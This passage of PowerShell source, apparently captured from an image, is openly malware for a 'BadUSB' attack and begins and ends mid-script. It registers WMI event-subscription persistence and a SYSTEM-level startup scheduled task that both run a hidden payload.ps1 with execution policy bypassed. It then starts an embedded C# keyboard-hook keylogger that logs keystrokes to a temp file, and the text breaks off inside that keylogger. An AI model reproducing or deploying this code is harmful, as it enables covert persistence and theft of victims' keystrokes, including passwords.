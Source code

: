 ```powershell
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_LogonSession'"
    QueryLanguage = 'WQL'
}
$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $filterArgs

$consumerArgs = @{
    Name = 'BadUSB_Consumer'
    CommandLineTemplate = "powershell -ExecutionPolicy Bypass -File $env:temp\\payload.ps1"
}
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $consumerArgs

$bindingArgs = @{
    Filter = $filter
    Consumer = $consumer
}
Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $bindingArgs
"@
Invoke-Expression $wmiScript

# Automatic Restart on Shutdown/Reboot
$restartScript = @"
$taskName = "BadUSB_Restart"
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -File $env:temp\\payload.ps1"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -User "SYSTEM" -RunLevel Highest
"@
Invoke-Expression $restartScript

# Install Required Software
Install-RequiredSoftware

# Keylogger Function
function Start-Keylogger {
    $keyloggerScript = @"
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Windows.Forms;
    public class Keylogger {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;
        private static string logFile = "$env:temp\\keylog.txt";

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
```